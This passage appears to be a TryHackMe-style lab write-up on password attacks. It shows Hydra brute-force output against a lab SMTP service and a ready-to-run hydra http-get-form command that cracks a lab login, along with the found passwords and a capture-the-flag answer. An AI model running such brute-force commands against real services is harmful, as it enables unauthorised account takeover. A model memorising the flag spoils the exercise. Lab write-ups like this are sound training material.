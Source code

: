 ```bash
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[465][smtp] host: 10.10.98.196   login: pittman@clinic.thmredteam.com   password: !multidisciplinary00
[STATUS] attack finished for 10.10.98.196 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-26 11:55:45

```


**Perform a brute-forcing attack against the phillips account for the login page at http://10.10.98.196/login-get using hydra? What is the flag?**
```bash

rhost=10.10.98.196
hydra -l phillips -P clinic_wordlist.txt $rhost http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 


Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-26 12:06:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 105 login tries (l:1/p:105), ~7 tries per task
[DATA] attacking http-get-form://10.10.98.196:80/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php
[80][http-get-form] host: 10.10.98.196   login: phillips   password: Paracetamol
[STATUS] attack finished for 10.10.98.196 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-26 12:06:10

```
> THM{33c5d4954da881814420f3ba39772644}


## Password Spray Attack

This task will teach the fundamentals of a password spraying attack and the tools needed to perform various attack scenarios against common online services.
